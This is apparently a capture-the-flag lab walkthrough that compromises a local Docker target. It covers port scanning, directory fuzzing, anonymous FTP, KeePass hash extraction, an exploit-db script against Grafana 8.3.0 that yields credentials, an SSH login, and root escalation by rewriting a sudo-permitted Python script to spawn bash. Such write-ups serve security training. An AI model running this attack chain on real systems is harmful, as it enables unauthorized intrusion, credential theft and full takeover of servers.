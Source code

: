 ![image](https://github.com/user-attachments/assets/5aeeff3d-98f1-4b30-b5f1-3023544c972f)

We test the connection with the victim machine
```bash
ping -c 1 172.17.0.2
```
![image](https://github.com/user-attachments/assets/daa8b535-5c35-48f1-9480-41ac4c93f05c)

    ttl =64 ==> linux OS

## **As the victim machine is within reach, we will send a request for a response with the ports that are open.**

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```
![image](https://github.com/user-attachments/assets/c525eb41-4e8a-4a9a-b7f3-641906f1ed77)

    -oG AllPorts = save the output in the AllPorts file.

## **Now we launch a port scan**

```bash
nmap -sCV -p21,22,80,3000 172.17.0.2 -oN targeted
```
![image](https://github.com/user-attachments/assets/16069e6e-a237-472d-9164-09a792d99da0)

        -oN targeted = save the output in the targeted file.

## **We will apply fuzzing to discover new directories.**
```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html,js
```

## **We found this

![image](https://github.com/user-attachments/assets/1a43b527-a6a8-4f42-ac2f-74ba0d140919)
![image](https://github.com/user-attachments/assets/a84f31d8-5011-40c2-9aae-d2108ee249b3)

## **We have a clue that tells us that the access would be in the address found, but we do not have access to it, but we still have an access by FPT in Port 21 since the anonymous user is active.**

```bash
ftp 172.17.0.2
```
![image](https://github.com/user-attachments/assets/d3f9b147-7057-45e6-aedc-f24dcbcf7779)
![image](https://github.com/user-attachments/assets/71ddd691-bb05-413a-b61c-a5785c6ac1d2)
![image](https://github.com/user-attachments/assets/c556c458-a2b0-4f66-94e1-ec7734fde2bc)

## **We will try to decrypt this file since it is a keepass database (DATABASE.kdbx).**
```bash
keepass2john database.kdbx > hash_database
```
![image](https://github.com/user-attachments/assets/ef81b728-e685-4995-a773-24b620ebcca2)

## **We do not have a way by this method so we will continue to investigate the web.**
```bash
whatweb http://172.17.0.2:3000/login
```
![image](https://github.com/user-attachments/assets/1b52be59-8ec5-4c2d-a295-2d02c4257589)

```bash
searchsploit Grafana 8.3.0
```
![image](https://github.com/user-attachments/assets/1cc42446-de5e-4758-b185-0260905b8ef5)

## **We bring the exploit to our working folder**
```bash
locate 50581.py
```
```bash
mv /usr/share/exploitdb/exploits/multiple/webapps/50581.py .
```
![image](https://github.com/user-attachments/assets/6713e0b1-7d88-442f-867e-ef10c611064f)

## **With this new exploit we will start our attack on the website**
```bash
python3 50581.py -H http://172.17.0.2:3000
```
![image](https://github.com/user-attachments/assets/53cd3a27-a917-4dee-abfd-441e580703b0)

## **Now we have a username and password let's try to login via SSH**
```bash
ssh freddy@172.17.0.2
```
![image](https://github.com/user-attachments/assets/4c4ce804-d551-4db4-a11b-bc663714a801)

## **We already have access now let's try to elevate privileges**
```bash
sudo -l
```
![image](https://github.com/user-attachments/assets/99c5b875-47fd-47be-9b3d-c2f31384c21a)
![image](https://github.com/user-attachments/assets/7d90a92a-2d38-4216-8883-a907c042e7fb)

## **We see that /opt/maintenance.py belongs to freddy so we can change it and write to it. The new content of the maintenance.py script will be:**
```bash
script /dev/null -c bash
"CTRL+Z"
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```
```bash
nano /opt/maintenance.py
```
![image](https://github.com/user-attachments/assets/5b9a60c7-daa2-4800-99db-20d93413e729)
```bash
import os
os.system("/usr/bin/python3 -c 'import os; os.system(\"/bin/bash\")'")
```
![image](https://github.com/user-attachments/assets/5e3d535d-468c-4247-acba-6564fae86b4b)

## **We execute it:**
```bash
sudo /usr/bin/python3 /opt/maintenance.py
```
![image](https://github.com/user-attachments/assets/86397e0c-ea6d-468c-a8ba-b97806a23360)







